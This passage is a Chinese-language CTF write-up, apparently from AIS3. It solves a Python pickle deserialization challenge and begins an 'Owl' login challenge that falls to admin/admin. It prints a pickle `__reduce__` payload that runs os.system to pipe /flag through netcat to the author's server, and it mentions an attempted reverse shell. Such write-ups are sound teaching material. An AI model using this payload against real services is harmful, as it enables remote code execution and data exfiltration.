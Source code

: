 ```python

            return str(data)
        except:
            return traceback.format_exc()
        
    return open(__file__).read()
```

是一題Python序列化的題目，看到題目的當下我想到之前有看過可以濫用`pickle.loads`去達到RCE的文章，所以就先朝著這個目標前進。

原本想要試試看能不能讓他彈一個ReverseShell回來，不過不知道為什麼都不成功，所以最後只讓他可以印出Flag。

最後採用把flag cat出來之後回傳給自己的伺服器。
```python
class BadObj:
    def __reduce__(self):
        import os
        return os.system, ('cat /flag | nc <My Server> 5555;',)
```

Flag: `AIS3{7h3_5n4k3_w1ll_4lw4y5_b173_b4ck}`

### 🦉Owl
網頁就是個帳號密碼的登入介面，然而有個提示說: `UESS THE STUPID USERNAME / PASSWORD`，所以就先試試看常見的弱帳密來登入，發現可以用`admin/admin`來登入。

原本以為登入之後沒有東西了，結果上面有個Show hint的按鈕藏在上端。

Hint就是網頁的原碼:
```php
<?php

    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        exit;
    }

    // Settings
    ini_set('display_errors', 1);
    ini_set('display_startup_errors', 1);
    error_reporting(E_ALL);
    date_default_timezone_set('Asia/Taipei');
    session_start();

    // CSRF
    if (!isset($_SESSION['csrf_key']))
        $_SESSION['csrf_key'] = md5(rand() * rand());
    require_once('csrf.php');
    $csrf = new Csrf($_SESSION['csrf_key']);


    if ($action = @$_GET['action']) {
        function redirect($path = '/', $message = null) {
            $alert = $message ? 'alert(' . json_encode($message) . ')' : '';
            $path = json_encode($path);
            die("<script>$alert; document.location.replace($path);</script>");
        }

        if ($action === 'logout') {
            unset($_SESSION['user']);
            redirect('/');
        }
        else if ($action === 'login') {
            // Validate CSRF token
            $token = @$_POST['csrf_token'];
            if (!$token || !$csrf->validate($token)) {
```